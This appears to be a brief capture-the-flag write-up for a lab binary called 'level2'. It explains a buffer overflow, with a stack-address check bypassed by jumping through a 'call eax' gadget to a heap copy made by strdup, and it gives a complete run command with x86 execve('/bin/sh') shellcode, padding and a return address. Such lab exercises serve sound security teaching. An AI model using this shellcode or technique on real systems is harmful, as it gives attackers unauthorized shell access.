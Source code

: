 # LEVEL2

## EXPLANATIONS
### BINARY BEHAVIOR
Function main call p
write stdin in buffer
check that address in sEIP is not on stack
### EXPLOI STRATEGY
We write our shellcode into buffer + padding to overwrite sEIP by the address of frame_dummy+31(call eax) because strdup is the last function called before the return of p,  
 we still have strdup return (HEAP address in which all stdin buffer has been copied) in EAX
### RUN COMMAND
```
python -c "print('\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + 'A' * 35 + '\x08\x04\x84\xcf'[::-1])" > /tmp/exploit_string
`cat /tmp/exploit_string - | /home/user/level2/level2
```
